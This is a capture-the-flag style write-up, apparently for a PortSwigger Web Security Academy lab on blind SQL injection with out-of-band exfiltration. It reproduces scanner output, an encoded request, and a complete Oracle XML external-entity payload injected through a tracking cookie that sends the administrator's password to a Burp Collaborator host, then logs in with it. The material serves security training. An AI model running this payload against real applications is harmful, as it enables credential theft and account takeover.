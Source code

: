 # Blind SQL injection with out-of-band data exfiltration - The easy solution

send request for the home page to repeater
the injectable location is between the end of the tracking cookie and the semi colin
```
Cookie: TrackingId=yo3lljVcGknlZs43 (here) ;
```
Send to intruder and select/highlight that spot
```
Cookie: TrackingId=yo3lljVcGknlZs43§ §; session=b5JQ5IUnadQ77eMtVMlUICyB1apxT8Vu
```
Then right click, scan defined insertion point, and it will discover OOB interaction
Here is the alert:
SQL Injection
```
Issue detail
The manual insertion point 1 appears to be vulnerable to SQL injection attacks.
The payload '||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % absfl SYSTEM "http://udbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oasti'||'fy.com/">%absfl;]>'),'/l') from dual)||'
was submitted in the manual insertion point 1.
This payload injects a SQL sub-query that calls Oracle's xmltype function to evaluate some data as XML.
The supplied XML defines an external entity that references a URL on an external domain.
The application interacted with that domain, indicating that the injected SQL query was executed.
The database appears to be Oracle. 
```
**Request**
```
GET / HTTP/2
Host: 0ae7000603e8320a82d33450009f004a.web-security-academy.net
Cookie: TrackingId=yo3lljVcGknlZs43'%7c%7c(select%20extractvalue(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20[%20%3c!ENTITY%20%25%20absfl%20SYSTEM%20%22http%3a%2f%2fudbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oasti'%7c%7c'fy.com%2f%22%3e%25absfl%3b]%3e')%2c'%2fl')%20from%20dual)%7c%7c'; session=b5JQ5IUnadQ77eMtVMlUICyB1apxT8Vu
```
* Decoded the scanner payload is
* `yo3lljVcGknlZs43'||(select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % absfl SYSTEM "http://udbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oasti'||'fy.com/">«sfl;]>'),'/l`

**Collaborator HTTP interaction**
```
GET / HTTP/1.0
Host: udbeg41va7rqz00fq8azwtnyspyjm9ady4oref3.oastify.com
Content-Type: text/plain; charset=utf-8
```
_the Host is the signifigant part_

* At this point all ya gotta do is modify the scanner payload to your specs:
**Copy the scanner payload from the inspector editor, and edit it in a text document, or in the editor**
1. You need the administrator's password, Use Oracle's SQL query to get it
  `(SELECT password from users where username='administrator')`
2. Cause the app to connect to your burp collaborator server, so include that URL in the query
3. Change the **ENTITY** value from the scanner's `% absfl` to `% remote`
4. The **SYSTEM** must call from the command in step 1, and include the `||` 
   ```
   SYSTEM "http://'||(SELECT password from users where username='administrator')
   ```
6. Followed by `||'.yourburpcollaboratordomain.oastify.com/"
7. Reference the **ENTITY** `remote`
  And here it is complete SQL Injection to get the admin's password:
```
' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.burpcollab.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
replace burpcollab in the example above with yours

**Now put it in the Inspector editor and save changes and send the request**
Check your collab server and you will see in an HTTP request to it:
```
GET / HTTP/1.0
Host: 3pdm0kmm3be2otrzu11u.4v0eryjx53xeu6ybit3shuudw42vqoed.oastify.com
Content-Type: text/plain; charset=utf-8
```
**the Host sub domain is the admin's password.**
In this example it's **3pdm0kmm3be2otrzu11u**

Now go to the login page and login with the credentials

username
`administrator`

password
`3pdm0kmm3be2otrzu11u`

**See the ORACLE SQL Language Reference to make sense of the SQLi**

[Concatenation Operator || ](https://docs.oracle.com/en/database/oracle/oracle-database/19/sqlrf/Concatenation-Operator.html#GUID-08C10738-706B-4290-B7CD-C279EBC90F7E)

